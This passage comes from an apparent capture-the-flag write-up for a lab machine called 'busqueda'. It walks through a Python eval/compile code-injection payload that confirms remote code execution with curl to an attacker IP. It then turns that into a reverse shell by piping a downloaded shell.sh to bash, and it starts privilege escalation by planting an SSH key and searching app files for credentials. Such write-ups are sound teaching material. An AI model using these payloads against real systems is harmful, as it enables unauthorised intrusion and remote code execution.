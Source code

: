Now, we just need to gain a reverse shell. It seems that `eval` as it cannot process the reverse shells I put in. I found this writeup for a bug bounty that bypasses this by using `compile()`.&#x20;

{% embed url="https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html" %}

However, this exploit would require us to 'close' the previous `eval` function and use another one. As such, we have to prepend our payload with `d'` to close the previous query. Using this payload, we can confirm RCE via `curl`:

```
d'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl+http%3a//10.10.16.41/test")','a','single'))%2b'
```

<figure><img src="../../.gitbook/assets/image (2599).png" alt=""><figcaption></figcaption></figure>

All we have to do is change the command to `curl <IP>/shell.sh|bash`.

<figure><img src="../../.gitbook/assets/image (796).png" alt=""><figcaption></figcaption></figure>

With this, we can grab the user flag.

## Privilege Escalation

First I upgraded the shell by dropping my SSH public key into the machine. Then we can continue with our enumeration.

### Sudo Credentials

I initially ran a LinPEAS and `pspy64` scan, but found nothing from there. Next thing is to look for credentials, and we can start with `/var/www/app` since that's where the application source code is.

```
svc@busqueda:/var/www/app$ ls -la
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4096 Apr 10 14:41 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 templates
```
